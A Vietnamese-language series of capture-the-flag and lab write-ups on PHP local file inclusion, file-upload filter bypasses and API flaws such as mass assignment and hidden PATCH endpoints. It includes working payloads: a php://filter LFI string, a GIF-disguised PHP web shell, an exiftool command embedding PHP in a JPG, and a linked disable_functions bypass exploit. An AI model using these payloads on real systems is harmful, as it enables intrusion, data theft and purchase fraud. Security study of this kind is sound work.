

Có chức năng view cho phép đọc nội dung của file do người dùng nhập vào nhưng lại filter chặn tên file `flag`. Dù vậy ở đấy cũng tồn tại lỗ hổng path traversal 


Quay trở lại với LFI. Nhiệm vụ cần ngăn chặn include thực thi file php, để làm được điều đó em đã tìm thấy một `Wrapper php://` cho phép truy cập vào các luồng I/O khác nhau [Wrappers](https://www.php.net/manual/en/wrappers.php.php).

Cụ thể trong `php://` có tham số `filter` cho phép lọc các dữ liệu trước khi đưa ra ngoài và đưa vào trong. Lý do em sử dụng vì muốn [Encode](https://www.php.net/manual/en/filters.convert.php) data khiến include không đọc được `<?php` => Không chạy file

```
?page=php://filter/read=convert.base64-encode/resource=../uploads/flag
```

Sau khi nhận đoạn đoạn PHP sẽ tiến hành decode base64 và nhận được kết quả:

## Dreamhack Lab: Image Uploader
Tổng quan bài gồm 2 chức năng:
- Upload: file ảnh
- Gallery: Hiển thị danh sách các ảnh
Đầu tiên, em đi vào xem source của chức năng upload. Em nhận thấy có 2 cơ chế kiểm soát upload file là whitelist MIME type và content tương ứng bên trong.

Các MIME type được cho phép bao gồm:` 'image/jpeg', 'image/png', 'image/gif', 'image/jpg'`. Tương ứng thì nội dung trong file phải có signature của các `'jpg', 'jpeg', 'png', 'gif'`.


Ở đoạn code trên, có 1 điểm yếu ở dòng 42, chỉ khi file upload lên có nội dung không khớp với MIME type và không thộc extension cho phép thì sẽ bị block.

Vì vậy để tránh bị block, em chỉ cần thỏa mãn 1 điều kiện đó là bypass được. Cách xử lý như sau, tạo 1 file php với nội dung như dưới. Trong đó có signature của gif là `GIF87a`
```php
GIF87a
<?php system($_GET['cmd']); ?>
```




Như vậy việc upload và khai thác đã thành công. 1 điều nữa để file php trong thư mục upload có thể execute là trong cấu hình file `.htaccess` quy định.

Em tiếp tục muốn khai thác thêm bằng jpg hoặc png thì không được. PHP parser liên tục báo lỗi, mặc dù payload em đưa vào là hợp lệ. Em search với GPT, thì biết được do cấu hình bên trong php bật flag `short_open_tag`. Với flag này php parser khi thấy các đoạn `<? ?>` sẽ đều biên dịch. mà trong ảnh sẽ có những  `<? ?>` rác nằm trong vậy nên khiến chương trình bị lỗi.

Em thử tiến hành chạy lại bằng docker và set `short_open_tag=off` thì đã khai thác thành công. Để nhét payload vào JPG em sử dụng exiftool

```bash
exiftool -Comment="<?php echo 'START'. file_get_contents('/flag.txt').'END'; ?>" image.jpg -o solve.php
```
## Dreamhack lab: WEIRD-FILE-UPLOAD
```php
if ($_SERVER['REQUEST_METHOD'] == "POST") {
            if (!empty($_FILES["file"]["name"]) && $_FILES["file"]["size"] <= $maxFileSize && strpos($_FILES["file"]["name"], "..") === false) {
                $ip = $_SERVER['REMOTE_ADDR'];
                $hash = hash('sha256', $randomValue . $ip);
                $newFilename = $hash . "_" . basename($_FILES["file"]["name"]);
                $uploadFile = $uploadDir . $newFilename;

                if (move_uploaded_file($_FILES["file"]["tmp_name"], $uploadFile)) {
                    displayMessage("Your cosmic anomaly has been absorbed into our bizarre dimension!");
                }
            }
        } elseif (isset($_GET["try"])) {
            $path = "./uploads/" . $_GET["try"];
            if (strpos($path, "..") === false) {
                include $path;
            }
    }
```

Bên trên là đoạn code thể hiện chức năng của bài này. Khi người dùng thực hiện POST có nghĩa là upload 1 file, ứng dụng sẽ kiểm tra size nhỏ hơn 10KB, tồn tại name và name không chứa `..`. Đường dẫn tới file sẽ được tạo thông qua các biến `uploadDir`, `hash`, `filename`. trong đó `hash` được tạo từ `randomValue` và `ip`. `randomValue` được tạo bằng đoạn dưới đây
```php 
// openssl rand -hex 32 > seed.txt
$seedFile = "/seed.txt";
$uploadDir = "./uploads/";

$seed = file_get_contents($seedFile);
mt_srand($seed);
$randomValue = mt_rand()
``` 

Nhìn kĩ sẽ thấy, hàm `mt_srand()` nhận đối số thuộc `int` nhưng `seed` truyền vào lại là chuỗi. Điều này sẽ khiến các chữ cái trong biến seed bị đổi thành số 0. Vì seed 32 kí tự nên khả năng brute force vẫn rất khó dù đã thu hẹp được khả năng.

Chức năng thứ 2 xảy ra khi thực hiện method `GET` với tham số try. Ở đây, ứng dụng filter để tránh path traversal, nếu không thấy `..` trong giá trị `try` sẽ tiến hành include `/uploads/$_GET['try']`
Sau đó, em tìm cách gây ra lỗi tại hàm `move_uploaded_file` bằng cách để tên file vượt quá 256 kí tự nếu ứng dụng bật display_errors thì lỗi sẽ hiển thị. 



Rất may là lỗi đã hiển thị, qua đó đã làm leak cái đường dẫn. Đặc biệt là giá trị hash đang cần tìm.

Sau khi lấy giá trị hash thì quá trình khai thác sẽ là : 
+ upload file php vào uploads
+ chèn giá trị hash_filename vào tham số `try` để include nó 

Sau khi thử 1 vài payload thì không được do trong file php.ini có cấu hình `disable_function` rất nhiều các hàm thực thi,.. liên quan đến file và 1 vài cái khác. Rất khó để tìm ra hàm không thuộc blacklist để đọc flag.

Em để ý version php là 7.3 nó khá cũ. Em search và thấy có blog cũng như script liên quan đến việc bypass disable_function bằng UAF(use-after-free) . Em sử dụng [payload](https://github.com/DuyVuong/bypass-disable_function-php/blob/master/php7-gc-bypass/exploit.php) chỉnh sửa pwn thành `/flag` . Kết quả nhận được là flag đã được lấy.


# API TESTING
API được gọi là giao diện lập trình ứng dụng, nó cho phép các hệ thống phần mềm và các ứng dụng giao tiếp với nhau 
## Lab: Exploiting an API endpoint using documentation
Nhiệm vụ của lab này là tìm ra API để thực hiện xóa tài khoản `carlos`
Do đó, điều đầu tiên em nghĩ tới là tìm ra API Document, trong đó sẽ liệt kê các API và tham số tương ứng.
Trong tab HTTP proxy, em thấy api /api/user . Do đó em thử truy cập vào /api để kiểm tra. Trong api đó có liệt kê 3 REST api để thực hiện 3 chức năng bằng 3 method: GET, PATCH, DELETE


Thực hiện xóa user carlos bằng api `DELETE /api/user/carlos`

## Lab: Finding and exploiting an unused API endpoint
Đề bài: trong bài này, cần tìm ra API ẩn để thực hiện mua đơn hàng `Lightweight l33t Leather Jacket`.

Vì vậy ban đầu em thực hiện thử các chức năng và xác định được khi thực hiện thêm giỏ hàng có gọi `/api/products/1/price`. Em thực thay đổi các method mà thấy có sử dụng được method `PATCH`. Với method này, ứng dụng yêu cầu cần có content-type: application/json và tham số ở body là price.

Sau đó em thực hiện thêm các yêu cầu và để giá trị price là 0. Khi reload lại trang thấy đơn hàng cần có id 1 đã được đặt về 0. Từ đó với tài khoản 0 đồng có thể mua.


## Lab: Exploiting a mass assignment vulnerability
Bài trên tồn tại `mass assignment vulnerability`. Theo em hiểu thì đây là lỗ hổng xảy ra khi ứng dụng lấy trường dữ liệu do người dùng gửi lên và gán vào đối tượng dữ liệu mặc dù đối tượng đó kh thể được phép sửa. 

Ví dụ: user có role là guess. Nhưng khi gửi request tới ứng dụng, ng dùng chèn thêm role:admin. Khi đó role cũ sẽ bị update admin.

Với lý thuyết đó, em phát hiện trong api GET /api/checkout ở phần response có đoạn json có tham số `percentage` % giảm giá.


Ở api POST /api/checkout thì không thấy tham số đó được gửi đi. Em thực hiện thêm vào để gửi đi. Em để giá trị tham số đó `50` thấy response sẽ đc chuyển tiếp tới việc thanh toán. Vì giảm 50% mà credit của mình 0đ vậy nên thanh toán thất bại. Như vậy em thực hiện với giá trị `100` nghĩa là giảm 100% và quá trình thanh toán đã thành công.
